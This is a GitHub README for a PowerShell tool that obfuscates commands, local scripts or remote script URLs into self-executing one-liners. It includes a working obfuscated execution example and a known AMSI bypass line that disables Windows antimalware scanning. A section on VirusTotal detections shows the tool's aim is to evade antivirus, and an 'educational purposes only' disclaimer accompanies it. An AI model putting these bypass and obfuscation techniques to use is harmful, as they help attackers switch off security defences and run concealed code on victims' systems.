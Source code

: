 # Invoke-Mathfuscation

![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscation.png)

A quick command line utility that converts individual characters of an input string into char values. It then takes a user-supplied number value and uses it to ofuscate the individual char values. Lastly, it outputs a simple obfuscated one-liner using random polymorphic variables which will execute the original string. Currently supports:

* Remote URL (ie: http://example.com/dir/remote.ps1)
* Local File (ie: C:\tmp\local.ps1)
* PowerShell Command (ie: Write-Host "Hello world!")

When prompted, specify a command to invoke, remote URL or full local path to a .ps1 file, then supply the number offset which will be added to the char values. 

Example: 
```Write-Host "Hello world!"``` using 600 as an offset:
```powershell
@(687,714,705,716,701,645,672,711,715,716,632,634,672,701,708,708,711,632,719,711,714,708,700,633,634)|%{$Pbdli=$Pbdli+[char]($_-600)};.(g`cm i?[?x])($Pbdli)
```

## VirusTotal Detections

Example: AMSI Bypass using Using Matt Graebers Reflection method:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Unmathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_1.png)

Mathfuscated:
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_2.png)



*Disclaimer: I'm not a programmer*

Use at your own risk! For educational purposes only. 


